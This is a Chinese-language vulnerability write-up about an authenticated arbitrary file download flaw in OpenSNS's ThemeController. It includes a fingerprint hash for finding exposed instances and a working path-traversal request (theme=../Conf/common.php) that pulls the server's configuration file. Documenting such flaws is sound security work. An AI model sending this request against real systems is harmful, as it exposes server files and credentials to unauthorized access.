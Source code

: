# OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![img](/assets/PeiQi-Wiki/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![img](/assets/PeiQi-Wiki/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](/assets/PeiQi-Wiki/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)